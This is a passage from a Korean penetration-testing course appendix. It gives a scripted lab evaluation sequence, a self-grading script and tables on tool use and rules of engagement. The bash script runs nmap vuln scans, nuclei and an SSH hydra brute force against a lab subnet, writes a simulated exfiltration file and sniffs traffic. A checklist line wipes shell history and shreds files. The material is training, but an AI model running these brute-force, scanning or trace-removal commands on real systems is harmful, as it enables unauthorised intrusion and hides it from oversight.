- 재현: BadUSB 키스트로크 5초
- 영향: 회의실 입장 → 30초 → 셸
- 조치: USBGuard + 사용자 교육

---

## (발견 #3-5 동일 슬라이드)

---

## 다음 단계

- 권고 1-2 즉시 (1주 / 1개월)
- 권고 3-5 분기 내 (3개월)
- 다음 평가: 15주 차

EOF

marp /tmp/eval-report/brief.md \
   --pdf -o /tmp/eval-report/brief.pdf
marp /tmp/eval-report/brief.md \
   --pptx -o /tmp/eval-report/brief.pptx

ls -la /tmp/eval-report/
# report.md   report.pdf   brief.md   brief.pdf   brief.pptx
```

#### 도구 7: 평가 자가 채점 (pytest + scenario assertions)

본문 [4. 평가 기준] 의 100점 채점을 *자동* 으로 측정. 학생이 자기 결과를
즉시 객관 평가 가능.

```python
#!/usr/bin/env python3
# /tmp/eval-self-grade.py — 평가 5 phase 자가 채점
import subprocess, json, os, sys

GRADE = {"recon": 0, "exploit": 0, "tech_mix": 0, "report": 0, "creative": 0}
MAX   = {"recon": 20, "exploit": 30, "tech_mix": 20, "report": 20, "creative": 10}

def has_file(p): return os.path.exists(p) and os.path.getsize(p) > 0
def grep(p, pat):
    try:
        return bool(subprocess.run(['grep', '-q', pat, p],
                                    timeout=5).returncode == 0)
    except: return False

# 1. 정찰 (20점)
#  - nmap XML 결과 (5)
GRADE["recon"] += 5 if has_file('/tmp/eval-nse.xml') else 0
#  - 4 호스트 모두 발견 (10)
GRADE["recon"] += 10 if grep('/tmp/eval-nse.xml', '10.20.30.80') and \
                        grep('/tmp/eval-nse.xml', '10.20.30.1') else 0
#  - OS 탐지 (5)
GRADE["recon"] += 5 if grep('/tmp/eval-nse.xml', 'osmatch') else 0

# 2. exploit (30점)
#  - default cred 발견 (10)
GRADE["exploit"] += 10 if grep('/tmp/hydra-ssh.log', 'login: ccc') else 0
#  - HID payload 작성 (10)
GRADE["exploit"] += 10 if has_file('/tmp/exfiltrated_data.txt') else 0
#  - 임플란트 시뮬 + reverse tunnel (10)
GRADE["exploit"] += 10 if has_file('/tmp/loot.tgz') or \
                          has_file('/tmp/sniff.pcap') else 0

# 3. 기법 활용 (20점) — 다중 도구 사용 흔적
tools_used = sum([
    has_file('/tmp/nuclei-critical.json'),     # nuclei
    has_file('/tmp/hydra-ssh.log'),            # hydra
    has_file('/tmp/eval.pcap'),                # tcpdump
    has_file('/tmp/eval-nse.xml'),             # nmap NSE
    has_file('/tmp/linpeas-web.txt'),          # linpeas
])
GRADE["tech_mix"] = min(20, tools_used * 4)

# 4. 보고서 (20점)
GRADE["report"] += 5 if has_file('/tmp/eval-report/report.md') else 0
GRADE["report"] += 10 if has_file('/tmp/eval-report/report.pdf') else 0
GRADE["report"] += 5 if has_file('/tmp/eval-report/brief.pdf') else 0

# 5. 창의성 (10점) — 자가 평가 (수기)
GRADE["creative"] = int(input("창의성 자가 점수 (0-10): ") or 0)

# 결과
print("\n===== 자가 채점 =====")
total = 0
for k in GRADE:
    print(f"  {k:10s}: {GRADE[k]:2d}/{MAX[k]:2d}")
    total += GRADE[k]
print(f"  {'TOTAL':10s}: {total}/100")

# JSON 결과
with open('/tmp/eval-grade.json', 'w') as f:
    json.dump({"grade": GRADE, "total": total, "max": 100}, f, indent=2)
```

### 통합 평가 시퀀스 (90분 시나리오 — 압축형 5분 검증판)

```bash
#!/bin/bash
# /tmp/eval-flow.sh — 평가 5 phase 통합 시퀀스
set -e
LOG=/tmp/eval-$(date +%Y%m%d-%H%M%S).log
TARGET_NET=10.20.30.0/24
TARGETS=(10.20.30.1 10.20.30.80 10.20.30.100)

# Phase 1 — 정찰 (5분)
echo "===== [Phase 1] Recon =====" | tee -a $LOG
sudo nmap -sn -PR $TARGET_NET -oA /tmp/eval-l2 | tee -a $LOG
sudo nmap -sV --top-ports 100 -O \
   --script "default,vuln,banner" \
   ${TARGETS[@]} -oA /tmp/eval-nse | tee -a $LOG

# Phase 2 — 서비스 분석 + nuclei (10분)
echo "===== [Phase 2] Service =====" | tee -a $LOG
for t in ${TARGETS[@]}; do
    nuclei -u "http://$t" -severity high,critical \
       -j -o /tmp/nuclei-$t.json 2>&1 | tee -a $LOG
done

# Phase 3 — default cred + HID 시뮬 (5분)
echo "===== [Phase 3] Cred + HID =====" | tee -a $LOG
hydra -L /tmp/users.txt -P /tmp/passwords.txt \
   -t 5 -W 4 -e n ssh://10.20.30.80 -o /tmp/hydra-ssh.log | tee -a $LOG

cat << 'EXFIL' > /tmp/exfiltrated_data.txt
=== Exfiltrated System Information ===
Hostname: $(hostname)
User: $(whoami)
OS: $(uname -a)
Network: $(ip addr show | grep "inet " | grep -v "127.0.0.1")
EXFIL

# Phase 4 — 임플란트 시뮬 (10분)
echo "===== [Phase 4] Implant =====" | tee -a $LOG
sudo timeout 30 tcpdump -i eth0 -w /tmp/eval.pcap \
   "host 10.20.30.80" 2>&1 | tee -a $LOG &
sleep 35

# Phase 5 — 자가 채점 + 보고서
echo "===== [Phase 5] Report =====" | tee -a $LOG
mkdir -p /tmp/eval-report
# (위 도구 6 의 report.md 작성)
pandoc /tmp/eval-report/report.md -o /tmp/eval-report/report.pdf \
   --pdf-engine=xelatex 2>&1 | tee -a $LOG

# 자가 채점
python3 /tmp/eval-self-grade.py | tee -a $LOG

echo "===== [DONE] $(date) =====" | tee -a $LOG
ls -la /tmp/eval-report/
```

### 도구 비교표 (역할별 / 학습 시간 / 평가 기여도)

| 도구 | 역할 | 학습 시간 | 평가 기여 (배점) | 윤리 | 비고 |
|------|------|-----------|------------------|------|------|
| nmap (NSE) | 정찰 (host/svc/vuln) | 4시간 | recon 15+ | OK | 평가 핵심 |
| rustscan | 정찰 (속도) | 30분 | recon 5 | OK | nmap 보강 |
| masscan | 정찰 (속도) | 30분 | recon 5 | OK | 대규모 |
| arp-scan | 정찰 (L2) | 15분 | recon 3 | OK | 인접 |
| httpx | 정찰 (web) | 30분 | recon 5 | OK | tech detect |
| nuclei | 자동 취약점 | 2시간 | exploit 10 | OK | template 풍부 |
| nikto / whatweb | web 정찰 | 1시간 | recon 5 | OK | legacy |
| hydra / medusa | cred brute | 1시간 | exploit 10 | 동의 + lab | 속도 제한 |
| crackmapexec | windows 통합 | 2시간 | exploit 15 | 동의 + lab | AD 환경 |
| metasploit | 통합 exploit | 4시간 | exploit 20 | 동의 + lab | RoE 필수 |
| impacket | windows 프로토콜 | 4시간 | exploit 15 | 동의 + lab | NTLM relay |
| linpeas / linenum | privesc 정찰 | 1시간 | exploit 10 | OK | 자기 셸 후 |
| pspy | process 모니터 | 30분 | exploit 5 | OK | 자기 셸 후 |
| tcpdump / tshark | 트래픽 분석 | 2시간 | exploit + report 10 | OK (lab) | pcap 산출 |
| bettercap | 통합 MITM | 1시간 | exploit 15 | 동의 필수 | week 07 |
| autossh / chisel | C2 터널 | 30분 | exploit 5 | 동의 + lab | week 05 |
| pandoc | 보고 (PDF) | 30분 | report 10 | OK | core |
| marp | 보고 (PPT) | 30분 | report 5 | OK | 브리핑 |
| dradis / pwndoc | 보고 자동화 | 4시간 | report 15 | OK | 운영용 |
| draw.io / mermaid | 보고 (도식) | 1시간 | report 5 | OK | 네트워크 맵 |

### 평가 시 흔한 실수 vs 대응 매트릭스

| 흔한 실수 | 영향 | 대응 |
|----------|------|------|
| 정찰 단계 *너무 길게* (30분+) | exploit 시간 부족 | 15분 timeout 강제 (timeout 명령) |
| nmap 만 쓰고 nuclei 누락 | recon ★, exploit ☆ | nuclei + nmap 병행 (parallel) |
| default cred 시도 안 함 | 가장 쉬운 점 누락 | hydra 5분 brute 표준화 |
| 보고서 *기술 표현* 만 (경영진 미흡) | report 점수 ↓ | marp brief 별도 산출 |
| TLP 표시 누락 | 보고 신뢰도 ↓ | frontmatter 의무 (TLP:AMBER) |
| 발견 # 5 미만 | report 부족 | nuclei + linpeas 로 자동 5+ |
| 위험도 분류 단순 | 신뢰도 ↓ | CVSS 점수 명시 |
| 개선 권고 *추상적* | 운영 무가치 | 비용/일정 표 추가 |
| 흔적 제거 (lab) 누락 | 다음 평가 노이즈 | bash history off + shred |
| 경영진 브리핑 누락 | 가장 큰 감점 | marp 5 슬라이드 의무 |

### 평가 시 사용 가능 / 금지 도구 매트릭스

| 도구 | 평가 시 사용 | 사유 |
|------|-------------|------|
| nmap / masscan / rustscan | 허용 | 정찰 표준 |
| nuclei (template 1차) | 허용 | 자동 취약점 |
| hydra (lab cred 사전) | 허용 | 100 후보 이내 + 1s delay |
| crackmapexec | 허용 (AD lab) | 동의 범위 내 |
| metasploit (auxiliary) | 허용 | scan 모듈만 |
| metasploit (exploit) | **요청 후 허용** | 시스템 변경 책임자 승인 |
| 외부 phishing | **금지** | 평가 범위 외 |
| 외부 evilginx | **금지** | 동일 |
| ransomware sample 실행 | **금지** | 시스템 파괴 위험 |
| password spray (외부 host) | **금지** | 계정 잠금 + 법적 책임 |
| DDoS / 대량 traffic | **금지** | DoS 효과 |
| 외부 C2 터널 (학교망 외) | **금지** | 격리 위반 |

### 학생 자가 점검 체크리스트

- [ ] 평가 시작 전 `/tmp/eval-flow.sh` 한 번 dry-run 으로 모든 도구 작동 확인
- [ ] nmap NSE 결과 XML 이 4 호스트 모두 포함 (`grep address /tmp/eval-nse.xml`)
- [ ] nuclei 가 high+ 1건 이상 발견 (`jq '.severity' /tmp/nuclei-*.json | grep high`)
- [ ] hydra 결과에 `login:` 한 줄 이상 (`grep login: /tmp/hydra-ssh.log`)
- [ ] HID exfil 파일 / 임플란트 sniff pcap 두 산출 모두 존재
- [ ] 보고서 markdown 이 frontmatter (title/author/date/classification) 포함
- [ ] PDF + PPT 양쪽 모두 산출 (`ls /tmp/eval-report/*.{pdf,pptx}`)
- [ ] 발견 5개 이상 + 각각 CVSS 점수 + 재현 명령 + 개선 권고 포함
- [ ] 자가 채점 점수 60+ (목표 80+)
- [ ] 평가 종료 후 자기 셸의 bash history + 임시 파일 삭제 (`unset HISTFILE;
      shred -u /tmp/eval-*.txt`)

### 운영 환경 적용 시 주의 (실 침투 테스트로 확장 시)

1. **RoE (Rules of Engagement)** — *사용 가능 도구* / *금지 도구* / *영향 범위*
   / *비상 연락* 4 항목 서면. 평가 환경의 *세큐어테크 lab* 외 절대 적용 금지.
2. **동시성 제어** — hydra / nuclei 의 thread / RPS 제한. 운영 host 에 100
   동시 = DoS 사고. lab 은 5 thread 표준.
3. **데이터 채증** — 모든 명령 + stdout/stderr 보관 (`script -t /tmp/eval.tlog
   /tmp/eval.log`). 사고 시 책임 입증.
4. **보고서 분류** — TLP:RED (외부 공유 금지) / TLP:AMBER (조직 내 한정) /
   TLP:GREEN (커뮤니티) / TLP:CLEAR (공개). 평가 보고서는 기본 AMBER.
5. **크리덴셜 보호** — hydra 결과 `/tmp/hydra-ssh.log` 의 cred 는 24h 내
   `shred -u`. 보고서에는 마스킹 (`pass*****`) 표기.
6. **법적 검토** — 발견된 high+ 취약점이 *제3자 노출* 가능 시 (외부 IP / SaaS)
   *책임자 통보 후 24h 내 조치* 의무 (정보보호법 §29).
7. **자동화 의존** — nuclei false positive 가능. 모든 high+ 발견은 *수기 검증*
   후 보고. nuclei output 자체를 보고서에 raw 첨부 금지.

> 본 부록은 *학습 평가용 OSS 통합 시퀀스* 이다. 실제 침투 테스트는 RoE +
> 위촉 계약 + 책임자 + 채증 보관 4 요건 충족 시에만 수행한다. 자가 채점
> 점수 80+ 가 *모의 평가 통과* 기준이며 — 실 환경 침투 권한과는 무관.

---
